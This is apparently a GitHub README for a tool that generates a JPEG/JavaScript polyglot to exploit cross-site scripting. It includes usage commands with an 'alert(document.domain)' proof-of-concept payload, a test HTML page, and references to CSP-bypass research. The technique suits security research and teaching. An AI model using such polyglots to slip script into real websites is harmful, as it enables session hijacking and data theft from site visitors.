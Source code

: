 # Exploiting XSS with JPEG Polyglot
## Requirement

- ImageMagick

## Usage

```sh
sudo apt install imagemagick  # in debian

git clone https://github.com/maya2250/xss_injection_in_jpeg.git
cd xss_injection_in_jpeg
python3 exploit.py --payload 'alert(document.domain)' --imagesize 200x200 --output xss.js
```

## Test

1. Confirm to generate JavaScript file for exploiting XSS.
2. Change `src` attribute value in `index.html` to your output filename.

    e.g.

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <script charset="ISO-8859-1" src="./xss.js"></script>
    </head>
    <body></body>
    </html>
    ```

3. Run HTTP Server.

    e.g.

    ```sh
    python3 -m http.server
    ```

4. open http://localhost:8000 in browser.

    ![POC](./poc.png)

tested in Google Chrome `Version 114.0.5735.106 (Official Build) (64-bit)`.

## References

- https://en.wikipedia.org/wiki/JPEG#Syntax_and_structure
- https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs
- https://github.com/corkami/pics/blob/master/binary/JPG.png
